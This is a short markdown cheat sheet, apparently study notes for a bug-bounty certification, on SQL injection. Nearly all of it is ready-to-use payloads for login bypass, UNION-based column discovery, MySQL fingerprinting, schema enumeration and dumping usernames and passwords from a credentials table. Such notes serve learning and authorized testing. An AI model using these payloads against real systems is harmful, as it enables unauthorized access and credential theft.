 # CBBH PATH

# SQL Injection
```powershell
# Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
```

## Find the Vuln Query
```powershell
# Check the url after the ?raman=raman
# Check login fields
```

## Fix the Query (Comment)
```powershell
--
#
```

## Payloads
```powershell
' or 1=1 --
'--
```
## String Concatenation
```powershell
' UNION select NULL, username || '*' || password from users--
```

## Detmine the number of columns
```powershell
# Using UNION. The number and the order of the columns must be the same in all queries && The data types must be compatible
cn' UNION select NULL, NULL, NULL-- -
cn' UNION select NULL, NULL, NULL, NULL-- -
UNION select NULL, NULL, NULL, NULL from raman-- -

# Using OrderBy
' order by 1-- -
```

## Finding a column containing text (Data Type)
```powershell
# In case of an error it means the column is not type string
# In case of no error it menas the column is type string
cn' UNION select NULL, 'raman', NULL, NULL-- -
UNION select username, NULL, NULL, 'raman' from raman-- -
```

## DB Enumeration
```powershell
SELECT @@version #Fingerprint MySQL with query output
SELECT SLEEP(5) #Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - #Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - #List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - #List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - #List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - #Dump data from a table in another database
```
